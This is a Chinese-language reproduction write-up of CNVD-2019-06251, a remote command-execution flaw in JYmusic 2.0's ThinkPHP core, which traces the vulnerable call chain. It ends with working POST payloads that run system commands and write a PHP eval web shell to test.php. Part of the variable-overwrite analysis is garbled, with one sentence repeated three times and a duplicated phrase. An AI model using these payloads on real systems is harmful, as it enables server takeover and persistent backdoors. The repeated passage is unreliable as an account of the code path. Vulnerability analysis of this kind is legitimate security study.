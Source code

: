 ```yaml
---
title: JYmusic 2.0 命令执行漏洞
id: zhfly3004
---
```


# （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞

## 一、漏洞简介

CNVD-2019-06251

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call_user_func函数。

![image](../img/46c53a3b059095920ff2376e81d3ebc2.png)

通过构造使得$filter=system， $value=dir ，通过call_user_func函数即可执行系统命令” dir ”。

#### array_walk_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array_walk_recursive函数调用了filterValue函数。array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。

![image](../img/80fa870c7fdf09e4aa85a0f9da30b499.png)

![image](../img/df93b26a0960862df77e94c03364aaba.png)

#### input函数

/core/library/think/Request.php中的param函数调用了input函数。

![image](../img/28864e17cdc6b3a829b018db7de3d68b.png)

![image](../img/83c8eaca0710353986e3ea5490653dd3.png)

#### exec 函数

/core/library/think/App.php类中的exec 函数通过Request::instance()->param()调用了param函数。

![image](../img/d43b2882bb30410c85218f13c3b0bd8b.png)

#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数

![image](../img/b9f95103bcff7e2c491c71a3026a5656.png)

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

![image](../img/99f5613506926481795c4dac5db3a546.png)

![image](../img/8bc8c6c32bb34ae52dbec6dc9aa74277.png)

#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request->method()调用了method函数。

/core/library/think/Request.php类中，通过post参数_method=__construct调用构造函数：

![image](../img/6bca5c0a51ae6889c145693436b13dbd.png)

在构造函数里用filter=system覆盖类中的filter变量。

![image](../img/4697639bf526eea018b48bfb3c2d8981.png)

post参数 method=GET 就是要再次调用method函数，并且使得if(true===$method)为真，从而获取 _SERVER[REQUEST_METHOD]=dir 这个参数值。

![image](../img/42586c86f0a22ed79646e5a38cd0fd0b.png)

#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：

![image](../img/dfefedd91f6efaa215f6253b26afaa66.png)

POST的参数的作用已在漏洞分析环节分析。
filter=system&_SERVER[REQUEST_METHOD]=dir&_method=__construct&method=GET
POST参数后不能有\r\n回车换行，如果有就不能成功执行。
POST /captcha HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell

![image](../img/e4ffb8f3269ebdfe3af2d4db0aa3cb02.png)

```
filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET 
```

#### phpinfo()

![image](../img/52a813bba4546043e350f9c1ba6e879c.png)

```
http://0-sec.org/test.php?test=phpinfo(); `//末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。` 
```

## 四、参考链接

> https://blog.csdn.net/yun2diao/article/details/91345116